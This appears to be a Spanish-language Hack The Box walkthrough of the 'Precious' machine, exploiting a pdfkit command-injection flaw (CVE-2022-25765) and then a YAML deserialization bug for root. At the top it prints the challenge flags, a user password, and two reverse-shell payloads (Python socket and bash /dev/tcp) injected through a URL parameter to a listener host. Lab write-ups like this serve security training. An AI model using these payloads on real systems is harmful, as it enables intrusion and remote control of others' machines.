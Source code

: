 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH" >> /home/henry/user.txt >> 112bb323ac23f4a06b02be2e6d4a05b3
    
    ROOT FLAG: "root:650c7efc2338f853a15e7755eada5817" >> /root/root.txt >> 650c7efc2338f853a15e7755eada5817
    
    REVERSE SHELLS: 
    
    http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
    
    http://10.10.14.253:9001/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.253/9001 <&1'`}
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)

Para hacer esto decidí cambiar a una shell de bash y estabilizarla por comodidad.

![](18.png)

Cargamos con un echo "--- nuestra carga para modificar el archivo dependencies.yml.

![](17.png)

![](19.png)

Comprobamos los cambios y utilizamos la función update_dependencies.rb para que lea nuestra carga y abrimos shell de ROOT.

![](20.png)

![](21.png)

Pwned!

![](22.png)

**Autor:** [AlbertoMiñan](https://github.com/albertominan)
